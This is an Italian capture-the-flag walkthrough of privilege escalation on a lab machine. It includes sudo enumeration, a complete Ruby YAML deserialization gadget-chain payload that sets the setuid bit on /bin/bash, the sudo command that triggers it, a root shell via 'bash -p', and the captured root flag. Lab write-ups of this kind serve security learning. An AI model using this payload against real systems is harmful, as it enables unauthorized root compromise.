 1) Vedo i privilegi sudo: sudo  -l
```js
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

2) Apro il file "/opt/update_dependencies.rb": 
```
 cat /opt/update_dependencies.rb 
```

3) Controllando il file, scopriremo che utilizza YAML.load che è vulnerabile all'attacco di deserializzazione YAML.
4) Ora possiamo sfruttarlo con il nostro file dependencies.yml dannoso
5) Scrivo il file dependencies.yml all'interno della cartella henry
6) Il parametro "git_set" che sta nel codice del file dependencies.yml lo modifico e ci metto "chmod +s /bin/bash" per impostare l'esecuzione del binario bash 
7) henry@precious:~$ cat dependencies.yml

```js
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash" //Questo è il parametro che ho modificato
         method_id: :resolve
```

8) Eseguo il file "/usr/bin/ruby /opt/update_dependencies.rb" con privilegi sudo:
```js
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

9) uso il comando ls per vedere il file /bin/bash:
```js
ls -al /bin/bash
```

10)  Eseguo /bin/bash:
```js
/bin/bash -p
```

11) Accedo nella cartella "/root" e prendo la root flag:
```js
bash-5.1# cd /root
bash-5.1# cat root.txt
f20b8728d485aa492096aae78839f7f9
```